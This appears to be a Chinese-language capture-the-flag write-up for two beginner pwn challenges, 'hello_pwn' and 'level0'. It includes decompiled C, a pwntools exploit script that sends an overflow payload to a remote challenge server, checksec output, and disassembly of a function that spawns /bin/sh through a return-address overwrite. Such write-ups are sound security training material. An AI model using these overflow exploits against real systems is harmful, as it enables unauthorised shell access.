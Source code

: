 ## hello_pwn ##

该题跟上一题类似，也是溢出，不过是溢出全局变量。

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  alarm(0x3Cu);
  setbuf(stdout, 0LL);
  puts("~~ welcome to ctf ~~     ");
  puts("lets get helloworld for bof");
  read(0, &unk_601068, 0x10uLL);
  if ( dword_60106C == 1853186401 )
    sub_400686();
  return 0LL;
}
```



```python
from pwn import *
# p = process("./hello_pwn")
p = remote("111.198.29.45", 31454)
p.recvuntil("lets get helloworld for bof\n")

payload = "a" * 4 + "\x61\x61\x75\x6e"
p.send(payload)

p.interactive()
```




## level0 ##

```
liwc@ubuntu:~/pwn/adworld/level0_$ checksec level0 
[*] '/home/liwc/pwn/adworld/level0_/level0'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

同样是栈溢出，同时开启了NX，但是已经布置好system("/bin/sh")的函数，直接覆盖eip为0x400596即可。偏移为0x80。

```ASM
.text:0000000000400596                 public callsystem
.text:0000000000400596 callsystem      proc near
.text:0000000000400596 ; __unwind {
.text:0000000000400596                 push    rbp
.text:0000000000400597                 mov     rbp, rsp
.text:000000000040059A                 mov     edi, offset command ; "/bin/sh"
.text:000000000040059F                 call    _system
.text:00000000004005A4                 pop     rbp
.text:00000000004005A5                 retn
```

